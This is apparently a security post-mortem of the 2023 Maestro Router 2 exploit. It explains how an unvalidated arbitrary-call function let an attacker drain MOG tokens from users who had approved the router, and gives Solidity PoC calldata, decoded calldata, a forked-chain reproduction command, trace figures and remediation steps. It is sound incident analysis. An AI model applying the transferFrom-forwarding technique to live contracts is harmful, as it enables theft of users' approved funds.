



# Maestro Router 2 Exploit — Arbitrary `transferFrom` via Unvalidated Router Call

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many
> unrelated PoCs that do not compile under a single `forge build`, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified source for the victim token: [MOG.sol](sources/MOG_aaeE1A/MOG.sol). The
> Maestro Router itself is **closed-source** (unverified on Etherscan); the bug is reconstructed
> from the on-chain calldata and the live trace.

---

## Key info

| | |
|---|---|
| **Loss** | ~280 ETH across the full campaign; **14.04 WETH** in the single reproduced transaction |
| **Vulnerable contract** | Maestro Router 2 (proxy) — [`0x80a64c6D7f12C47B7c66c5B4E20E72bc1FCd5d9e`](https://etherscan.io/address/0x80a64c6D7f12C47B7c66c5B4E20E72bc1FCd5d9e) |
| **Vulnerable logic** | Maestro Router 2 Logic — [`0x8EAE9827b45bcC6570c4e82b9E4FE76692b2ff7a`](https://etherscan.io/address/0x8EAE9827b45bcC6570c4e82b9E4FE76692b2ff7a) |
| **Victims** | Maestro users who had granted infinite MOG allowance to the router (7 in this tx) |
| **Drained asset** | MOG / "Mog Coin" — [`0xaaeE1A9723aaDB7afA2810263653A34bA2C21C7a`](https://etherscan.io/address/0xaaeE1A9723aaDB7afA2810263653A34bA2C21C7a#code) |
| **Sell venue** | UniswapV2 MOG/WETH pair — `0xc2eaB7d33d3cB97692eCB231A5D0e4A649Cb539d` (via Uniswap V2 Router `0x7a25…2488D`) |
| **Attacker EOA** | [`0xce6397e53c13ff2903ffe8735e478d31e648a2c6`](https://etherscan.io/address/0xce6397e53c13ff2903ffe8735e478d31e648a2c6) |
| **Attacker contract** | [`0xe6c6e86e04de96c4e3a29ad480c94e7a471969ab`](https://etherscan.io/address/0xe6c6e86e04de96c4e3a29ad480c94e7a471969ab) |
| **First attack tx** | [`0xc087fbd68b9349b71838982e789e204454bfd00eebf9c8e101574376eb990d92`](https://etherscan.io/tx/0xc087fbd68b9349b71838982e789e204454bfd00eebf9c8e101574376eb990d92) (≈14 ETH) |
| **Chain / block / date** | Ethereum mainnet / fork at 18,423,219 / Oct 24, 2023 |
| **Compiler (victim token)** | Solidity v0.8.18, optimizer 200 runs |
| **Bug class** | Arbitrary external call / unvalidated calldata forwarding → approval theft (`transferFrom` of third-party funds) |

---

## TL;DR

The Maestro Router exposed a function with selector **`0x9239127f`** that takes a **token address**
and a **raw `bytes` blob of calldata**, and then **executes that calldata against that token from the
router's own context** with no validation of either the target or the function being invoked. Because
Maestro users grant the router an **infinite ERC20 allowance** so it can pull their tokens for swaps,
an attacker could craft the blob as:

```
transferFrom(victim, attacker, victimBalance)
```

and have the router — a contract every victim had already approved — pull each victim's entire MOG
balance straight into the attacker's wallet. No signature, no ownership, no authorization of any kind
was required from the victims at exploit time; their *prior approval to the router* was the only thing
the attack needed.

In the reproduced transaction the attacker:

1. Loops over **7 victim addresses**, reading each one's MOG `allowance(victim, router)` and
   `balanceOf(victim)`, and taking the smaller of the two.
2. For each victim, calls `router.0x9239127f(MOG, transferFromCalldata, 0, false)`. The router
   `delegatecall`s its logic contract, which forwards the blob to MOG, executing
   `MOG.transferFrom(victim → attacker, balance)`.
3. After draining all 7 victims, the attacker holds **565,463,522,794.18 MOG** and dumps the entire
   position into the MOG/WETH Uniswap V2 pool, receiving **14.04 WETH**.

The on-chain campaign repeated this across ~12 transactions for a combined ~280 ETH.

---

## Background — what Maestro Router is

Maestro is a popular Telegram trading bot. Users approve its on-chain router contract to spend their
tokens so that the bot can execute swaps, snipes, limit orders, and copy-trades on their behalf
*without* requiring an approval transaction for every individual trade. The standard UX is therefore a
**one-time infinite approval** (`type(uint256).max`) of each traded token to the router.

The router at `0x80a6…5d9e` is a **proxy**: in the trace it receives the call and immediately
`delegatecall`s the logic implementation at `0x8EAE…ff7a`
([output.txt:1599-1601](output.txt#L1599-L1601)). Neither the proxy nor the logic contract is
verified on Etherscan, so the function body is not directly readable — but the calldata layout and the
resulting `Mog Token::transferFrom(...)` sub-call in the trace fully determine its behavior.

The drained asset, **MOG / "Mog Coin"** ([MOG.sol](sources/MOG_aaeE1A/MOG.sol)), is an ordinary
fee-on-transfer ERC20 (`_decimals = 18`, `_totalSupply = 420,690,000,000,000 * 1e18`,
[MOG.sol:172-188](sources/MOG_aaeE1A/MOG.sol#L172-L188)). MOG itself is **not** vulnerable — it is
simply the token the victims happened to have approved to the router. The double `Transfer` events seen
in the trace (one with `value: 0` to the token contract, one with the real `value` to the attacker) are
MOG's own fee-on-transfer accounting; the fee on this path was effectively zero, so the full balance moved.

---

## The vulnerable code

The Maestro logic contract is unverified, so the exact source is unavailable. The reconstructed
signature of the vulnerable entry point — derived from the PoC's calldata construction and confirmed
by the trace — is a generic "call this token with this calldata" helper:

```solidity
// selector 0x9239127f — reconstructed from on-chain calldata
function 0x9239127f(
    address token,    // arg0  — fully attacker-controlled
    bytes calldata data, // arg1 (abi offset 0x80) — fully attacker-controlled
    uint8  /*flag*/,  // arg2  — 0 in the exploit
    bool   /*flag*/   // arg3  — false in the exploit
) external {
    // ...
    token.call(data);   // ⚠️ executes ARBITRARY calldata against an ARBITRARY target
    // ...                  from the router's context, with NO target/selector allow-list
}
```

The PoC reproduces exactly the bytes the attacker submitted
([test/MaestroRouter2_exp.sol:62-70](test/MaestroRouter2_exp.sol#L62-L70)):

```solidity
bytes4 vulnFunctionSignature = hex"9239127f";
// ...
bytes memory transferFromData =
    abi.encodeWithSignature("transferFrom(address,address,uint256)", victims[i], address(this), balance);
bytes memory data = abi.encodeWithSelector(vulnFunctionSignature, Mog, transferFromData, uint8(0), false);
(bool success,) = address(router).call(data);
```

Decoded, the calldata for the first victim is:

```
9239127f
  arg0 token  = aaee1a9723aadb7afa2810263653a34ba2c21c7a            (MOG)
  arg1 offset = 0x80
  arg2        = 0
  arg3        = false
  bytes blob (len 0x64):
    23b872dd                                                          transferFrom selector
    0000…4189ad9624f838eef865b09a0be3369eaacd8f6f                     from   = victim
    0000…7fa9385be102ac3eac297483dd6233d62b3e1496                     to     = attacker
    0000…18b34e3cc95bf3495b3182a4                                     amount = 7,644,407,423.32 MOG
```

In the trace this produces, inside the router's `delegatecall`, a direct
`Mog Token::transferFrom(0x4189…, attacker, 7.644e27)` that succeeds and emits a `Transfer` to the
attacker ([output.txt:1599-1607](output.txt#L1599-L1607)).

---

## Root cause — why it was possible

A router that holds delegated spending power for thousands of users must treat the *target* and
*selector* of any call it makes as security-critical. The Maestro logic contract instead exposed a
**fully general "call(token, data)" primitive** with two unguarded, attacker-controlled inputs:

> The attacker chooses **both** the contract to call (`token`) **and** the exact calldata (`data`).
> The router then performs that call **as itself** — i.e., as the address every victim has granted an
> infinite ERC20 allowance. Setting `data = transferFrom(victim, attacker, balance)` turns the router
> into a confused deputy that moves *other people's* tokens to the attacker.

Three design decisions compose into a critical bug:

1. **No target allow-list.** `arg0` can be any address. The intended use was presumably "call a token
   the user is trading," but nothing restricts it.
2. **No selector / calldata validation.** `arg1` is opaque `bytes` forwarded verbatim. The router never
   checks that the call is, say, a `transfer` of the *caller's own* funds, or an approved swap. A
   `transferFrom` pulling a third party's balance is indistinguishable to it from any other call.
3. **The router is a pre-approved spender of victim funds.** This is the multiplier. An arbitrary-call
   primitive on a contract holding *no* allowances is harmless; on a contract holding *infinite*
   allowances from thousands of users, it is a one-call drain of all of them.

The attacker never needed any victim's private key or signature. The victims' standing
`allowance(victim, router) = type(uint256).max` (read in the trace as
`1.157e77`, [output.txt:1595-1596](output.txt#L1595-L1596)) was the entire authorization the exploit
relied on.

---

## Preconditions

- A victim has granted the Maestro router an ERC20 allowance for MOG (in practice infinite — the
  trace shows `2**256-1` for every victim).
- The victim holds a non-zero MOG balance at attack time.
- The router's `0x9239127f` entry point is callable by anyone (permissionless). The PoC issues the
  calls from an arbitrary test contract (`address(this)`) with no special role.
- A liquidity venue exists to convert the stolen MOG to ETH — here the MOG/WETH UniswapV2 pair.

No flash loan or capital is required: the attacker spends only gas, pulls victim tokens for free, and
sells them for profit.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt). The attacker contract is
`0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` (the Foundry test harness standing in for the real
attacker contract).

| # | Step | MOG moved | Running attacker MOG | Source line |
|---|------|----------:|---------------------:|-------------|
| 0 | **Start** — attacker holds 0 MOG | — | 0 | [1590-1594](output.txt#L1590-L1594) |
| 1 | Drain victim `0x4189…8f6F` via `9239127f` → `transferFrom` | 7,644,407,423.32 | 7,644,407,423.32 | [1599-1607](output.txt#L1599-L1607) |
| 2 | Drain victim `0xD0b4…B24D` | 48,204,641,774.31 | 55,849,049,197.64 | [1614-1622](output.txt#L1614-L1622) |
| 3 | Drain victim `0xe841…cdBe` | 80,397,781,241.68 | 136,246,830,439.32 | [1629-1637](output.txt#L1629-L1637) |
| 4 | Drain victim `0x6476…6aa9` | 334,490,752,124.12 | 470,737,582,563.44 | [1644-1652](output.txt#L1644-L1652) |
| 5 | Drain victim `0x942b…1772` | 81,546,385,133.72 | 552,283,967,697.16 | [1659-1667](output.txt#L1659-L1667) |
| 6 | Drain victim `0x9689…bf94` | 7,755,411,711.47 | 560,039,379,408.62 | [1674-1682](output.txt#L1674-L1682) |
| 7 | Drain victim `0xA516…9c64` | 5,424,143,385.55 | **565,463,522,794.18** | [1689-1697](output.txt#L1689-L1697) |
| 8 | `approve(UniRouter, 565.46B MOG)` | — | 565,463,522,794.18 | [1705-1709](output.txt#L1705-L1709) |
| 9 | `swapExactTokensForTokensSupportingFeeOnTransferTokens(565.46B MOG → WETH)` | −565,463,522,794.18 | 0 | [1710-1745](output.txt#L1710-L1745) |
| 10 | **End** — attacker WETH balance | — | **14.04 WETH** | [1746-1748](output.txt#L1746-L1748) |

For each victim, the PoC reads `allowance` and `balance` and pulls `min(allowance, balance)`
([test/MaestroRouter2_exp.sol:64-66](test/MaestroRouter2_exp.sol#L64-L66)). Since every allowance is
infinite, the limiting factor is always the victim's balance, so each victim is fully drained.

The 7 stolen amounts sum to **565,463,522,794,182,597,666,471,533,996 wei** of MOG, which matches the
attacker's pre-sale balance to the wei ([output.txt:1700-1704](output.txt#L1700-L1704)).

### The sell into Uniswap

At the moment of the dump, the MOG/WETH pair held reserves of **11,897,161,313,381.59 MOG /
310.34 WETH** (`getReserves()`, [output.txt:1721-1722](output.txt#L1721-L1722)). Selling
565.46B MOG (≈4.75% of the MOG reserve) returned **14.040863116812856819 WETH**
(`Swap` event, [output.txt:1737](output.txt#L1737)).

### Profit accounting (single reproduced transaction)

| Item | Amount |
|---|---:|
| MOG pulled from 7 victims (for free) | 565,463,522,794.18 MOG |
| Capital spent by attacker | 0 (gas only) |
| WETH received from selling MOG | **14.0409 WETH** |
| **Net profit** | **+14.0409 WETH** |

The reproduced tx is "just the first transaction" per the PoC header; the attacker repeated the same
`9239127f` primitive against many more victims across ~12 transactions for a combined ~280 ETH
([test/MaestroRouter2_exp.sol:7-22](test/MaestroRouter2_exp.sol#L7-L22)).

---

## Diagrams

### Sequence of the attack



### Why the router is a confused deputy



### Authorization model: intended vs. abused



---

## Remediation

1. **Never expose an unrestricted `call(target, data)` primitive on a contract that holds user
   allowances.** This is the root cause. Remove the generic forwarder entirely.
2. **Allow-list both target and selector.** If the router must call arbitrary tokens, restrict the
   forwarded calldata to a small set of safe selectors (e.g., `transfer`, `approve` of the router's
   *own* funds) and reject anything else — in particular reject `transferFrom` where `from != msg.sender`.
3. **Bind every pulled `transferFrom` to the caller.** A swap router should only ever pull tokens via
   `transferFrom(msg.sender, …)`. The `from` field must be forced to the authenticated caller, never
   taken from attacker-supplied calldata.
4. **Prefer pull-then-act with explicit accounting.** Have the user `transfer`/`permit` into the router
   for the specific operation, rather than relying on a standing infinite allowance that any code path
   can spend.
5. **Minimize standing allowances.** Encourage exact-amount or per-trade approvals (or `Permit2`-style
   time-boxed approvals) so that a router compromise cannot drain a user's entire balance.
6. **Treat proxy logic as security-critical and verify it.** An unverified logic contract holding
   thousands of infinite approvals is itself a red flag; the implementation should be auditable and
   audited.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many
unrelated PoCs that fail to compile under a single whole-project build):

```bash
_shared/run_poc.sh 2023-10-MaestroRouter2_exp --mt testExploit -vvvvv
```

- RPC: an Ethereum **mainnet archive** endpoint is required (the fork pins block 18,423,219). The
  project's `foundry.toml` `mainnet` endpoint serves the historical state at that block.
- Result: `[PASS] testExploit()`.

Expected tail:

```
Ran 1 test for test/MaestroRouter2_exp.sol:MaestroRouter2Exploit
[PASS] testExploit() (gas: 377606)
Logs:
  Attacker Mog balance before exploit: 0.000000000000000000
  Attacker Mog balance after exploit: 565463522794.182597666471533996
  Attacker ETH balance after exploit: 14.040863116812856819

Ran 1 test suite in 20.24s: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

---

*References: Phalcon — https://twitter.com/Phalcon_xyz/status/1717014871836098663 ·
Beosin — https://twitter.com/BeosinAlert/status/1717013965203804457 (Maestro Router, Ethereum, ~280 ETH).*
